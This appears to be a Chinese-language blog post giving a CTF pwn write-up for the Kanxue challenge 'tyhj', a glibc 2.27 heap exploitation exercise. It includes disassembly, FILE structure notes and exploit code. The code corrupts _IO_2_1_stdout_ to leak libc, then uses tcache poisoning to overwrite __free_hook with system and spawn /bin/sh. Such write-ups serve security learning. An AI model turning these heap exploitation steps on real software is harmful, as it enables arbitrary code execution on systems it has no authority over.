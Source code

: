 ```yaml
---
layout: post
title: The ends of the earth
date: 2020-05-19 00:01:00 +0300
description: The ends of the earth
img: ./tyhj/06.jpeg # Add image post (optional)
tags: [归档] # add tag
---
```

***

### <font color=0066FF>序言</font>

<font color=green>"天涯海角" 一在天之涯,一在地之角. 实话说我并没有弄明白为什么要叫这个名字(tyhj) 但重要的是可以学到一些"姿势"和"技巧"! 这里要介绍的是看雪CTF的一道PWN题目，主要介绍解题的思路过程：tyhj</font>

### <font color=0066FF>题目分析</font>
题目线索：我们有一个ELF文件,已知libc版本为2.27 正好我有Docker系统也是libc2.27版本.

<strong>file ./tyhj</strong>
```
kig@kig-Inspiron-7370:~/Docker/ctf/kanxue$ file tyhj
tyhj: ELF 64-bit LSB shared object, x86-64, version 1 (SYSV),dynamically linked, interpreter /lib64/ld-linux-x86-64.so.2, for GNU/Linux 3.2.0, BuildID[sha1]=340a44173cd2c079228c4207d1caa9b56a61407e, not stripped
```

检查一下系统保护的情况<strong>checksec ./tyhj</strong>
``` 
[*] pwndbg> checksec
	Arch:     amd64-64-little
	RELRO:	  Full RELRO
	STACK:	  Canary found
	NX:		  enabled
	PIE:	  enabled
	FILE:	  /home/kig/Docker/ctf/kanxue/tyhj
```
<strong>系统保护机制全开,看到这种情况总是莫名的紧张和兴奋. </strong>
![image](/assets/img/tyhj/00.png){:width="1400px"}
很经典的一段代码,初始化buffer,一个很经典的menu菜单,非常简单的功能. 有三个关键的功能<font color=red>new,edit,delete</font>,很容易使我们猜测到这是利用heap漏洞相关的. 我们需要进一步分析...

在<font color=red>alloc</font>功能中发现对new malloc的数量限制为3:
```
pwndbg> disassemble alloc
Dump of assembler code for function alloc:
0x0000000000000b22 <+0>:	push   rbp
   0x0000000000000b23 <+1>:	mov    rbp,rsp
   0x0000000000000b26 <+4>:	sub    rsp,0x10
   0x0000000000000b2a <+8>:	mov    DWORD PTR [rbp-0x4],0x0
   0x0000000000000b31 <+15>:	jmp    0xb54 <alloc+50>
   0x0000000000000b33 <+17>:	mov    eax,DWORD PTR [rbp-0x4]
   0x0000000000000b36 <+20>:	cdqe
   0x0000000000000b38 <+22>:	lea    rdx,[rax*8+0x0]
   0x0000000000000b40 <+30>:	lea    rax,[rip+0x201509]        # 0x202050 <notes>这里是一个notes数组用来存放chunk的指针，数组的大小为3
   0x0000000000000b47 <+37>:	mov    rax,QWORD PTR [rdx+rax*1]
   0x0000000000000b4b <+41>:	test   rax,rax
   0x0000000000000b4e <+44>:	je     0xb5c <alloc+58>
   0x0000000000000b50 <+46>:	add    DWORD PTR [rbp-0x4],0x1
   0x0000000000000b54 <+50>:	cmp    DWORD PTR [rbp-0x4],0x2
   0x0000000000000b58 <+54>:	jle    0xb33 <alloc+17>
   0x0000000000000b5a <+56>:	jmp    0xb5d <alloc+59>

```

继续分析<font color=red>edit</font>和<font color=red>del</font>功能. 通过上面的notes[3]对new malloc数量的限制, 这使得heap的利用难度增加,这也使得我利用<font color=red>Fastbin corruption</font>的想法直接打消. 从另一方面我们又看到这个程序非常的"短小", <strong>没有太多的"功能"可以需找漏洞利用点,我们没有缓冲区溢出,没有format string,而且系统保护enabled...没有发现任何除heap之外的可利用点</strong> 这是一种非常不利的情况, 程序是64位的, 爆破的可能性基本不存在...:
![image](/assets/img/tyhj/01.png){:width="1400px"}
![image](/assets/img/tyhj/02.png){:width="1400px"}

这使我陷入窘境一段时间,我没有了思路! 我找到一个墙角默默的反思了一下自己,十分钟后...当我再次尝试解决问题时,我发现了这个:
```
pwndbg> p stdout
$1 = (FILE *) 0x7ffff7fab6a0 <_IO_2_1_stdout_>
pwndbg> ptype stdout
type = struct _IO_FILE {
    int _flags;
    char *_IO_read_ptr;
    char *_IO_read_end;
    char *_IO_read_base;
    char *_IO_write_base;
    char *_IO_write_ptr;
    char *_IO_write_end;
    char *_IO_buf_base;
    char *_IO_buf_end;
    char *_IO_save_base;
    char *_IO_backup_base;
    char *_IO_save_end;
    struct _IO_marker *_markers;
    struct _IO_FILE *_chain;
    int _fileno;
    int _flags2;
    __off_t _old_offset;
    unsigned short _cur_column;
    signed char _vtable_offset;
    char _shortbuf[1];
    _IO_lock_t *_lock;
    __off64_t _offset;
    struct _IO_codecvt *_codecvt;
    struct _IO_wide_data *_wide_data;
    struct _IO_FILE *_freeres_list;
    void *_freeres_buf;
    size_t __pad5;
    int _mode;
    char _unused2[20];
} *
pwndbg>
```
我查看了 <font color=red><strong>FILE</strong></font> 的结构体信息. 这里有一种泄露信息的机制<font color=red>_IO_2_1_stdout_</font><br>
对于一个<font color=red>FILE</font>结构体来说，最重要的元素就是<font color=red>_flags</font>和<font color=red>_fileno</font>，<font color=red>_fileno</font>存储的是我们的文件描述符，对于某些情况或许我们要劫持<font color=red>_fileno</font>才能达到我们的目的，而<font color=red>_flags</font>.则标志了该FILE的一些行为，这对于我们的泄露至关重要。<br>
简单的说明一下<font color=red>_flags</font>的规则，<font color=red>_flags</font>的高两位字节，这是由 <font color=red>libc</font>固定的，不同的 libc 或许不同，但是大体相同，这就像一个文件的头标示符一样，标志这是一个什么文件，正如注释所说<font color=red>High-order word is _IO_MAGIC; rest is flags</font>.，而低两位字节的位数规则可以参考下面代码，不同位的功能，在注中已经标明。
```
#define _IO_MAGIC 0xFBAD0000 /* Magic number */
#define _OLD_STDIO_MAGIC 0xFABC0000 /* Emulate old stdio. */
#define _IO_MAGIC_MASK 0xFFFF0000
#define _IO_USER_BUF 1 /* User owns buffer; don't delete it on close. */
#define _IO_UNBUFFERED 2
#define _IO_NO_READS 4 /* Reading not allowed */
#define _IO_NO_WRITES 8 /* Writing not allowd */
#define _IO_EOF_SEEN 0x10
#define _IO_ERR_SEEN 0x20
#define _IO_DELETE_DONT_CLOSE 0x40 /* Don't call close(_fileno) on cleanup. */
#define _IO_LINKED 0x80 /* Set if linked (using _chain) to streambuf::_list_all.*/
#define _IO_IN_BACKUP 0x100
#define _IO_LINE_BUF 0x200
#define _IO_TIED_PUT_GET 0x400 /* Set if put and get pointer logicly tied. */
#define _IO_CURRENTLY_PUTTING 0x800
#define _IO_IS_APPENDING 0x1000
#define _IO_IS_FILEBUF 0x2000
#define _IO_BAD_SEEN 0x4000
#define _IO_USER_LOCK 0x8000
```
<br><font color=red>_IO_2_1_stdout_</font>一般是这样的：
```_IO_MAGIC|_IO_IS_FILEBUF|_IO_CURRENTLY_PUTTING|_IO_LINKED|_IO_NO_READS | _IO_UNBUFFERED |_IO_USER_BUF```

由于我们的程序开启了PIE, 所以需要尝试爆破4个bits.<br>
<strong>跟进调试：</strong> puts内部：<font color=red> _IO_puts -> _IO_new_file_esputn -> _IO_new_file_overflow -> _IO_do_write -> _IO_new_file_write</font>,
整个程序的功能非常简单：<font color=red>main --> [init_buffering()，ropnop()，read()]</font><br>
这里我们可以通过对<font color=red>_flag</font>的构造满足一定的利用条件，具体的代码分析就不过多赘述，有兴趣的请自行google, 其实关键就是在绕过<font color=red>_IO_new_file_overflow</font>函数中<font color=red>f_size = f ->_IO_write_ptr - f->_IO_write_base =0</font>，当<strong>f_size不等于0的时候就会打印出<font color=red>f->_IO_write_base</font>上面的东西，所以这里可以造成泄露libc。</strong>而我们要做的就是想办法覆盖<font color=red>flag</font>和<font color=red>_IO_write_base</font>的pointer。针对这里的pwn我的构造：
```
free(1,'n')
edit(2,p64(0)+p64(0x51))
free(0,'y')
edit(2,p64(0)+p64(0x91))
free(1,'y')
[b]# 通过fd覆盖flags     _IO_2_1_stdout_[/b]
edit(2,p64(0)+p64(0x51)+p16(0x7760))
add("aaaa")
raw_input(":")
# Modify the flag and the write pointers
add(p64(0xfbad3c80)+p64(0)*3+p8(0))
```
<strong>这里我使用gdb进行了测试:</strong>
![image](/assets/img/tyhj/03.png){:width="1400px"}

回想一下我们的程序想办法做一些构建，由于我们的程序有<font color=red>new malloc</font>数量的限制，并且默认<font color=red>malloc</font>大小为<strong>0x40</strong>, 我们pwn题目给出的glibc版本是<strong>2.27.0</strong>, 大体的利用思路是使<font color=red>unsortedbin</font>的<font color=red>fd</font>和<font color=red>tcache</font>对<font color=red>__free_hook</font>进行劫持,泄露<strong>base libc</strong>:
```
add(p64(0xfbad3c80)+p64(0)*3+p8(0))
p.recv(8)
libc=ELF('./libc-2.27.so')
raddr=u64(p.recv(6).ljust(8,'\x00'))
libc_addr=raddr-0x3ed8b0
libc.address=libc_addr
```
![image](/assets/img/tyhj/04.png){:width="1400px"}
<font color=red><strong>CORRUPTED!</strong></font>

```
p.recvuntil("Done")
free(0,'y')
edit(2,p64(0)+p64(0x51)+p64(libc.symbols['__free_hook']))
add("123")
edit(2,p64(0)+p64(0x61)+p64(libc.symbols['__free_hook']))
free(0,'y')
add(p64(libc.symbols['system']))
edit(2,'/bin/sh\x00')
raw_input(":")
free(2)
p.interactive()
```
![image](/assets/img/tyhj/05.png){:width="1400px"}

